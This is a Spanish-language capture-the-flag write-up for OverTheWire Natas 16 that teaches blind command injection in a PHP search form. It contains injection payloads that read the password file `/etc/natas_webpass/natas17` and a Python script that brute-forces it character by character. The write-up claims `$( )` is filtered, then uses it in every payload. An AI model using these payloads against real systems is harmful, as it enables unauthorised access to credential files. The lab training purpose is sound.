

# Natas 16 – OverTheWire

La página tiene un formulario con un campo de texto que pide una palabra para buscar en un diccionario (needle).
El código PHP hace algo como esto:

```php
$key = $_GET['needle'];
passthru("grep -i $key dictionary.txt");
```

Hasta aquí parece idéntico a Natas 9 o 10, pero hay una diferencia crucial:

- En este caso, filtran caracteres especiales (;, |, &, $( ), etc.)
- Además, no muestran errores ni la salida del comando de forma visible.

Así que el reto consiste en inyectar comandos sin ver la salida, deduciendo si una condición fue verdadera o falsa.

## Analisis

Como siempre la contraseña está en `/etc/natas_webpass/natas17`

Y queremos leer ese archivo, pero sin poder usar `cat` directamente.
La clave está en que **`grep` devuelve salida solo si encuentra coincidencias, y eso sí se refleja en la respuesta HTML.**

Por tanto, podemos usar `grep` para probar letras una por una en la contraseña.

### Blind Command Injection (basada en contenido)

Si ejecutamos:

```url
grep -i a dictionary.txt
```

devuelve líneas con la letra “a”.

Pero si inyectamos algo como:

```url
grep -i a /etc/natas_webpass/natas17
```

si hay una “a” en la contraseña, el comando produce salida (visible); si no, no.

Así podemos deducir el contenido del archivo carácter a carácter.

Sabiendo esto vamos a inyectar una lógica benigna en el apartado de usuario:

```url
test$(grep a /etc/natas_webpass/natas17)
```

Si la respuesta cambia (más o menos texto), ¡la inyección funciona!

Queremos saber si la contraseña empieza por cierta cadena.
Por ejemplo:

```url
$(grep ^a /etc/natas_webpass/natas17)
```

`^a` → coincide con contraseñas que comienzan por “a”.

Si hay coincidencia, el `grep` devuelve algo → la respuesta del servidor cambia.

Como en el ejericio anterior vamos a automatizar este proceso con un script de python.

```python
import requests
from string import ascii_letters, digits

chars = ascii_letters + digits
url = "http://natas16.natas.labs.overthewire.org"
auth = ('natas16', '<ContreñaNatas16>')
found = ""

while True:
    for c in chars:
        payload = f'$(grep ^{found + c} /etc/natas_webpass/natas17)'
        r = requests.get(url, auth=auth, params={'needle': payload})
        if "dictionary" not in r.text:  
            found += c
            print(f"[+] Encontrada: {found}")
            break
    else:
        break

print("Contraseña:", found)
```

La idea es que si grep encuentra coincidencia, su salida sustituye el contenido de `needle`, cambiando la respuesta de la web.

Con esto tenemos la contreseña



### Concepto: Blind Command Injection

Una **inyección de comandos ciega ocurre cuando puedes ejecutar comandos, pero no ves su salida.**
Debes inferir resultados por:

- Diferencias en la respuesta (como aquí con `grep`).
- Diferencias en el tiempo (`sleep` / `ping`).
- Diferencias en errores o estados HTTP.

## Conclusion

- Las inyecciones ciegas pueden ser tan peligrosas como las visibles.
- Aunque no veas la salida, puedes reconstruir datos sensibles con creatividad.
- Siempre valida y escapa correctamente la entrada antes de pasarla a comandos del sistema.
